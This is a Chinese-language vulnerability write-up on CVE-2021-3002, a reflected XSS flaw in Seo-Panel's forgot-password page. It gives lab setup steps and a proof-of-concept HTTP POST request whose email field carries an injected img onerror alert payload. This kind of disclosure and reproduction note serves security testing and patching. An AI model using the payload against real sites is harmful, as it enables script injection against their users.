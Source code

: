 # Seo-Panel 4.8.0 反射型XSS漏洞  CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞 

## 漏洞影响

> [!NOTE]
>
> Seo-Panel  Version < 4.8.0 

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](http://wikioss.peiqi.tech/vuln/seopanel-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

漏洞出现在找回密码页面 **http://xxx.xxx.xxx.xxx/login.php?sec=forgot**

![](http://wikioss.peiqi.tech/vuln/seopanel-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功弹窗 ,造成 反射型XSS 漏洞

## 漏洞POC

请求包如下

```js
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```

